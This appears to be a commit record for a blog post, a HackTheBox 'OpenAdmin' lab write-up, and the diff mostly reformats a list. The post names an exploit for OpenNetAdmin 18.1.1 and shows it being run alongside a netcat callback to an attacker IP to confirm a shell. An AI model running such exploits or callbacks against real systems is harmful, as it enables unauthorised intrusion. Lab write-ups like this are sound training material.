

Before and after one commit to ongyuann/ongyuann.github.io, a Jekyll site: the page built from _posts/2020-05-28-htb-openadmin.md, in a window 1280 px wide and 900 px high, scrolled down 646 px. Shown: the whole window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2020-05-28-htb-openadmin.md

````diff
--- a/_posts/2020-05-28-htb-openadmin.md
+++ b/_posts/2020-05-28-htb-openadmin.md
@@ -26,15 +26,15 @@ If you dirbust, you'll likely see these first few results (wordlist: `/usr/share
 `/music` gives you some landing page for a music company, but if you click the 'login' button at the top, you get redirected to _completely_ different-looking site at `/ona`.
 
 Now at this point, `/ona` looks sufficiently interesting for 2 reasons:
-1- It looks really different from its parent site at `/music` - in fact it's not even a sub-directory of `/music`, with the page located at `http://openadmin.htb/ona/`.
-2- There's a version number that almost literally pops right out at you - version 18.1.1. Now if you've done enough OSCP / HTB, version numbers are always a good place to start.
+1. It looks really different from its parent site at `/music` - in fact it's not even a sub-directory of `/music`, with the page located at `http://openadmin.htb/ona/`.
+2. There's a version number that almost literally pops right out at you - version 18.1.1. Now if you've done enough OSCP / HTB, version numbers are always a good place to start.
 
 ### Shell as www-data
 Googling `ona 18.1.1 exploit` should yield you [this first result](https://www.exploit-db.com/exploits/47691).
 
 The exploit basically gives you a shell with no feedback (as in no stdout). You can verify whether it works by triggering a callback to your machine.
 
-Example: running the exploit to point at `http://openadmin.htb/ona/` (note: somehow you must add a `\` at the end for this to work) and running a nc callback `nc -nc <ur_ip> 4444`
+Example: running the exploit to point at `http://openadmin.htb/ona/` and running a nc callback `nc -nc <ur_ip> 4444` (Note: somehow you must add a `\` at the end or the URL for this to work)
 ```
 kali@kali:~$ ./ona.sh http://openadmin.htb/ona/
 $ nc -nv 10.10.14.64 4444
````
Also changed, not shown: other parts of _posts/2020-05-28-htb-openadmin.md (+1 -1 lines).
